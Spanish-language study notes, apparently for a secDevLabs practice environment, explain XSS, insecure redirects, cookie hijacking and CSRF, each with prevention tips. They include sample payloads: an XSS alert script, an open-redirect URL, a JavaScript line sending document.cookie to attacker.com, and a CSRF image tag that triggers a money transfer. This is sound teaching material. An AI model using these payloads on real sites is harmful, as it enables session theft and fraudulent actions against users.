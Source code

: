 
Utilizaremos el siguiente directorio para tener entorno controlado
https://github.com/globocom/secDevLabs
lo clonamos
	realizamos
			make install

Se puede empezar probando si es suceptible a XSS
mediante generar alertas
Se pueden hacer redireccionamientos, klgr en la pagina web, Cookie Hijaking, incluso si el csrf token no es dinamico se puede hijackear

#### **1. Cross-Site Scripting (XSS)**

El **XSS** es una vulnerabilidad en la que un atacante puede inyectar scripts maliciosos en las páginas vistas por otros usuarios. Esto ocurre cuando una aplicación web no valida o limpia correctamente las entradas del usuario, lo que permite la ejecución de código JavaScript.

##### **Ejemplo básico de XSS:**

Puedes probar si una aplicación es vulnerable a XSS generando una alerta de JavaScript:

html


`<script>alert('XSS vulnerability!');</script>`

Si al ingresar este código en un campo de formulario, URL, o parámetro de búsqueda en la web, ves que la alerta aparece, entonces la aplicación es vulnerable a XSS.

#### **Tipos de XSS:**

1. **Reflejado (Reflected XSS)**: El script malicioso se refleja de inmediato en la página (por ejemplo, mediante la URL).
    
2. **Almacenado (Stored XSS)**: El script malicioso se almacena en el servidor y se sirve a los usuarios que acceden a esa página.
    

---

#### **2. Redireccionamientos Inseguros**

Los **redireccionamientos inseguros** son una vulnerabilidad donde una aplicación web redirige a los usuarios a una URL externa no confiable. Esto puede ser aprovechado para hacer phishing u otras acciones maliciosas.

##### **Ejemplo:**

Si una aplicación permite un parámetro de URL como `redirect_url`, un atacante puede intentar redirigir a los usuarios a un sitio malicioso:

bash



`http://vulnerable-site.com/redirect?url=http://malicious-site.com`

El servidor debería verificar que la URL de destino esté en una lista blanca de dominios confiables antes de redirigir.

---

#### **3. Cookie Hijacking**

El **Cookie Hijacking** ocurre cuando un atacante roba cookies de sesión para suplantar a un usuario legítimo. Esto puede suceder si las cookies no están correctamente aseguradas (por ejemplo, no se usan los flags `HttpOnly`, `Secure`).

##### **Ejemplo de Robo de Cookies:**

Un atacante puede inyectar un script que robe la cookie y la envíe a un servidor controlado por él:

javascript

CopiarEditar

`document.location = "http://attacker.com?cookie=" + document.cookie;`

**Prevención:**

- Usar las banderas `HttpOnly` (para que la cookie no sea accesible desde JavaScript) y `Secure` (para asegurar que solo se envíen a través de HTTPS).
    
- Asegurarse de que las cookies tengan un dominio y una ruta bien definidos.
    

---

#### **4. CSRF (Cross-Site Request Forgery) Hijacking**

El **CSRF** es un ataque en el que un atacante induce a un usuario autenticado a realizar acciones no deseadas en una aplicación web. Si un atacante puede hacer que el usuario ejecute una solicitud maliciosa mientras está autenticado (por ejemplo, al hacer clic en un enlace o cargar una imagen en su navegador), puede comprometer la seguridad.

##### **Ejemplo de ataque CSRF (sin token CSRF dinámico):**

Un atacante puede generar un enlace malicioso para transferir dinero de la cuenta de la víctima a la suya, utilizando el mismo navegador en el que la víctima está autenticada:

html

CopiarEditar

`<img src="http://victim-website.com/transfer?amount=1000&to=attackerAccount">`

Si el sitio web no valida adecuadamente los tokens CSRF y no genera uno único por sesión, el atacante podría hacer que el usuario realice una acción sin saberlo.

**Prevención:**

- Usar tokens CSRF dinámicos en cada solicitud (un token único por sesión que debe ser enviado con cada solicitud POST).
    
- Validar que las solicitudes provengan de la misma fuente (mediante cabeceras `SameSite` para las cookies).
    

---

### **Resumen de Prevención General:**

- **XSS:** Validar y sanitizar las entradas de los usuarios.
    
- **Redireccionamientos inseguros:** Validar las URLs de redirección.
    
- **Cookie Hijacking:** Usar cookies seguras (`HttpOnly`, `Secure`), y asegurarse de que la aplicación se ejecute solo sobre HTTPS.
    
- **CSRF:** Implementar tokens CSRF dinámicos y verificar la fuente de las solicitudes.


